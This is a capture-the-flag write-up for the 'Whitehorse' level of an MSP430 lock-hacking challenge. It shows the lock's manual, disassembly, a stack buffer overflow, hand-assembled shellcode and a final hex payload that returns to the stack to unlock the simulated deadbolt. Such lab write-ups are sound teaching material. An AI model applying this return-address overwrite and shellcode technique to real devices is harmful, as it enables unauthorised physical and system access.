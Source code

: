 # 06: Whitehorse

- _Points:_ 50 points
- _Version number_: c.01

## Password

```
30127f00b01232454141414141414141ae36
```

## Manual

```
Lockitall                                            LOCKIT PRO r c.01
______________________________________________________________________

              User Manual: Lockitall LockIT Pro, rev c.01
______________________________________________________________________


OVERVIEW

    - This lock is attached the the LockIT Pro HSM-2.
    - We have updated  the lock firmware to connect with this hardware
      security module.


DETAILS

    The LockIT Pro c.01  is the first of a new series  of locks. It is
    controlled by a  MSP430 microcontroller, and is  the most advanced
    MCU-controlled lock available on the  market. The MSP430 is a very
    low-power device which allows the LockIT  Pro to run in almost any
    environment.

    The  LockIT  Pro   contains  a  Bluetooth  chip   allowing  it  to
    communiciate with the  LockIT Pro App, allowing the  LockIT Pro to
    be inaccessable from the exterior of the building.

    There  is no  default  password  on the  LockIT  Pro HSM-2.   Upon
    receiving the  LockIT Pro,  a new  password must  be set  by first
    connecting the LockitPRO HSM to  output port two, connecting it to
    the LockIT Pro App, and entering a new password when prompted, and
    then restarting the LockIT Pro using the red button on the back.

    LockIT Pro Hardware  Security Module 2 stores  the login password,
    ensuring users  can not access  the password through  other means.
    The LockIT Pro  can send the LockIT Pro HSM-2  a password, and the
    HSM will  directly send the  correct unlock message to  the LockIT
    Pro Deadbolt  if the password  is correct, otherwise no  action is
    taken.

    This is Hardware  Version C.  It contains  the Bluetooth connector
    built in, and two available  ports: the LockIT Pro Deadbolt should
    be  connected to  port  1,  and the  LockIT  Pro  HSM-2 should  be
    connected to port 2.

    This is  Software Revision  01. The firmware  has been  updated to
    connect with the new hardware security module. We have removed the
    function to unlock the door from the LockIT Pro firmware.




(c) 2013 LOCKITALL                                            Page 1/1
```

## Writeup

In this version of the LockIT Pro firmware rev c.01, it claims it has been updated to remove the function to unlock the door from the firmware. This is likely in response to Level 05 (Reykjavik), where there were instructions in memory that allowed the deadbolt to be unlocked if a check was passed.

This time around, it seems that the password checking is done completely by the HSM itself, of which we are unable to inspect the program flow. However, we can still make use of the same `INT 0x7F` call to trigger a deadbolt unlock in the HSM, which allows us to bypass the password check.

To achieve this, let us look for our favourite buffer overflow vulnerability in `login`:

```
4508:  3e40 3000      mov   #0x30, r14
450c:  0f41           mov   sp, r15
450e:  b012 8645      call  #0x4586 <getsn>
```

We see that the `getsn` call accepts up to `0x30` bytes (48 bytes), whereas the buffer is only allocated 16 bytes. This allows us to write beyond the buffer at `36ae`-`36bd`. We also notice that at `36be`, it contains the return address for the `login` function to `443c`:

```
36a0:   4645 0000 9045 0200 ae36 3000 1245 4141   FE...E...60..EAA
36b0:   4141 0000 0000 0000 0000 0000 0000 3c44   AA............<D
```

We can overwrite the return address. However, there is no `unlock_door` function this time, so what we can do instead is to return to our own shellcode on the stack.

Let's use the assembler to assemble the following instructions into shellcode:

```
push #0x7f
call #0x4532
```

These instructions would first push `0x7f` on the stack, followed by calling the `INT` function. As mentioned in previous levels, this interrupt unlocks the deadbolt without checking for a password. We can assemble them into the following 8 bytes:

```
30127f00b0123245
```

Since we need to override the return address at bytes 17-18, we can return to `36ae`, the start of our buffer, and execute the above shellcode. Put together, we have the following payload:

```
30127f00b01232454141414141414141ae36
```
